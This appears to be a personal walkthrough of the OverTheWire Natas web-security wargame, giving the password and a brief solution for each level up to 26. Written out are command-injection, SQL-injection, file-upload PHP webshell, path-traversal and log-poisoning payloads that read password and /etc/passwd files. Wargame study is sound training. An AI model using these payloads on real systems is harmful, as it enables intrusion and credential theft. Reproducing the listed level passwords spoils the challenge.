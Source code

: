 natas0:natas0
Just check the HTML


natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto
do the same idk


natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
files/pixel.png
go look at files/
find users.txt


natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
"Not even Google will find it this time..."
this is a hint to go check robots.txt


natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
"Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/""
edit the referrer parameter and resend


natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
set loggedIn cookie to 1


natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
the php source does an include "includes/secret.inc"
inspect html and there you find the secret to submit


natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
the page GET parameter seems to display the contents of a file
there are no proper controls on this parameter
use it to show /etc/natas_webpass/natas8
you can even show /etc/passwd, anything I guess


natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
printf 3d3d516343746d4d6d6c315669563362 | xxd -r -p - | rev | base64 -d -


natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
bash command injection
just ;cat


natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
another command injection
c /etc/natas_webpass/natas11 #


natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
This uses a XOR encryption for the cookie.
We're given the source code, so we know how the original data should look like.
PLAIN ^ ENCRYPTED = KEY


natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
We can upload a file and then the server saves it with a random filename.
It doesn't control the content of the file, moreover it preserves the extension we give to it.
So just upload a php file and modify the "value" parameter of the form, changing .jpg to .php
Visit the link it gives you and your php code will be executed


natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
Same as natas12, except this time there is a control on the content, using exif_imagetype
This function simply checks the magic bytes at the beginning of a file.
So.... Let's just insert those magic bytes.
`printf '\xFF\xD8\xFF\xE0<? echo file_get_contents("/etc/natas_webpass/natas14")?>' > natas13.php`


natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
First SQL injection. just `" or 1=1 --`


natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
Seems to be a blind injection. It tells me that "natas16" exists so we should get its password.
Check out natas15.py


natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
I solved this using a blind with bash.
You can insert an if block with newlines, and use head -c to get natas17's password character by character.
Be careful, the shell seems to be 100% posix compliant only. Therefore, == and such don't work.


natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
Same as natas15, except there is no output this time around. Let's use sleep.


natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
PHPSESSID is set to low values. Max is 640. Easy to bruteforce.


natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
Similar to natas18, but PHPSESSID is not as simple.
Trying usernames such as "natas17", "natas18", etc. I saw that they were all very similar to each other.
Turns out that PHPSESSID is just hex-encoded "<number>-<username>". <number> was always relatively low so I assume the max is still 640. I tried bruteforcing with "<number>-admin"


natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
This challenge implements its own read / write functions for the session files. Just set your username to "username\nadmin 1". Read will take that second line as a session variable.


natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ
You will be given a "colocated" site. That site allows you to set SESSION variables. Send a POST request with admin=1, then change your PHPSESSID in the main site.


natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
Do not follow redirects! If you set revelio, the site will print the flag but you instantly get redirected to the homepage.


natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
`if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 ))`
strstr checks if the string contains "iloveyou". Also I assumed that the conversion into a number stopped at the first non-digit character.
So, just input `11iloveyou` and you'll get the flag.


natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg
After a bit of googling I found out that php's strcmp is very unreliable when one of the parameters isn't a string.
We can make it so that passwd is an array by sending it as `?passwd[]` in the URL bar.


natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c
The custom `safe_include()` function simply uses a blacklist to try and prevent path traversal.
As we all know, blacklists are bad. I visited PayloadAllTheThings and found `....//` to escape filters.
It seems to work, `?lang=....//index-source.html` gives me the source of the page.
I noticed that `include()` executes php code, so if we could include an input of ours, we can have RCE.
`logRequest` will serve this purpose: it outputs our user agent to a log file. Change the user agent to php code and include the log file.
```
GET /?lang=....//logs/natas25_<your_session_id>.log HTTP/1.1
User-Agent: <?php echo(file_get_contents("/etc/natas_webpass/natas26")); ?>
```

natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T


